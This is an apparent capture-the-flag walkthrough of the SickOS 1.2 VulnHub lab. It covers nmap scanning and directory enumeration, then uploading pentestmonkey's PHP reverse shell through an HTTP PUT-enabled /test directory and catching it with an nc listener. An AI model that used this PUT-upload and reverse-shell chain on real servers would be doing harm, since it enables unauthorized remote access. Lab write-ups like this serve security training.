










# SickOS : 1.2

\

## 

## SickOS : 1.2

- **SickOS : 1.2** :-

<!-- -->

- Download the machine : <https://www.vulnhub.com/entry/sickos-12,144/>

- Now unzip the file :

- Then start the machine .

<!-- -->

- Automatic not assign IP to the machine :

- Run nmap command to scan  :

<!-- -->

- Find the machine ip :

    nmap -sn 192.168.2.0/24 

- Find the available port :

    nmap -v -p- 192.168.2.175

- Check the port what is running on these port :

    nmap -v -sT -sV -sC -A -O -p 80,22 192.168.2.175

- Now check what is running in this ip : <http://192.168.2.175/>

- Now run the dirsearch command :

    dirsearch -u http://192.168.2.175/

- Parameter search in browser : <http://192.168.2.175/test/>

 Directory listening enable .

- Allowed HTTP Methods on Port 80 :

<!-- -->

- Using nmap to Enumerate Supported Methods :

    nmap -v -Pn -sT -sV -p 80 --script http-methods.nse 192.168.2.175

- With URL Path Specification :

    nmap -v -Pn -sT -sV -p 80 --script http-methods.nse --script-args http-methods.url-path='/test' 192.168.2.175

- Using curl to Check OPTIONS :

    curl -v -X OPTIONS http://192.168.2.175/test

- Example Usage of HTTP Methods with curl :

<!-- -->

- GET :

    curl -X GET http://192.168.2.175/test

- HEAD :

    curl -I http://192.168.2.175/test

- POST :

    curl --request POST --url http://192.168.2.175/test/post.php --header 'Content-Type: application/x-www-form-urlencoded' --data 'demo2'

- PUT – Upload a File :

<!-- -->

- php-reverse-shell download here :
  <https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php>

<!-- -->

- Edit the file :

    vim php-reverse-shell.php

 kali k ip dena h .

    curl -T php-reverse-shell.php http://192.168.2.175/test/

Or with explicit method :

    curl -X PUT -T php-reverse-shell.php http://192.168.2.175/test/

Or uploading as data :

    curl -X PUT -d '<?php phpinfo(); ?>' http://192.168.2.175/test/phpinfo.php

- Now take a reverse shell :

    nc -nlvp 443

    curl -X PUT -T php-reverse-shell.php http://192.168.2.175/test/

Click on file take a reverse shell :

